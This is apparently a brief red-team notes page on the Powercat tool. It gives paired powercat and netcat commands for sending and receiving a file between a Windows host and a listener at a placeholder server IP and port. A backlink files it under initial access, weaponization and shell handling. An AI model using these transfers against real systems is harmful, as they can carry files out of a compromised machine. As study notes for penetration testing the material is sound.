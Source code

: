 # Powercat

## 01 - Send File

```
PS C:\> powercat -c <server_IP> -p <PORT> -i C:\path\to\file.txt

$ nc -lnvp <PORT> > file.txt
```

## 02 - Receive File

```
$ nc <server_IP> <PORT> < file.txt

PS C:\> powercat -l -p <PORT> -of C:\path\to\file.txt
```

---
## References

### Backlinks

- [[07 - Tactics & Techniques & Procedures Phases/C - Initial Access/0x01 - Weaponization/0xC - Shell Handler/Windows/Powercat]]